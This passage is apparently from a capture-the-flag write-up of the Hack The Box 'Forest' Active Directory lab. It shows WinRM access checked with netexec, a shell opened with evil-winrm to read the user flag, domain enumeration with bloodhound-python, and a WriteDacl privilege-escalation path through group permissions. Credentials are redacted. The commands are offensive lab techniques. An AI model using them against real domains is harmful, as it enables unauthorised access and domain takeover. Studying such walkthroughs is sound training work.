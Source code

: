 Svc-alfresco also has PS Remote access into the Domain Controller.

```
netexec winrm 10.129.95.210 -u svc-alfresco -p <REDACTED>
WINRM       10.129.95.210   5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.95.210   5985   FOREST           [+] htb.local\svc-alfresco:<REDACTED> (Pwn3d!)
```

Connected over WinRM and read the user flag.

```
evil-winrm -u svc-alfresco -p <REDACTED> -i 10.129.95.210

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> hostname
FOREST

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type c:\users\svc-alfresco\desktop\user.txt
59cca37192e24634****************
```

# PrivEsc

Executed [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) to enumerate the domain.

```bash
bloodhound-python -u svc-alfresco -p <REDACTED> -ns 10.129.95.210 -d htb.local -c all
```

Svc-alfresco is a member of the ‘Account Operators’ group.

<img src="/assets/img/forest/Untitled 1.png" alt="Untitled 1.png" style="width:800px;">

And this group has GenericAll permissions over the ‘Exchange Windows Permissions’ group, which is **allowed to create any ACE over the HTB.LOCAL object** **abusing WriteDacl**.

<img src="/assets/img/forest/Untitled 2.png" alt="Untitled 2.png" style="width:800px;">
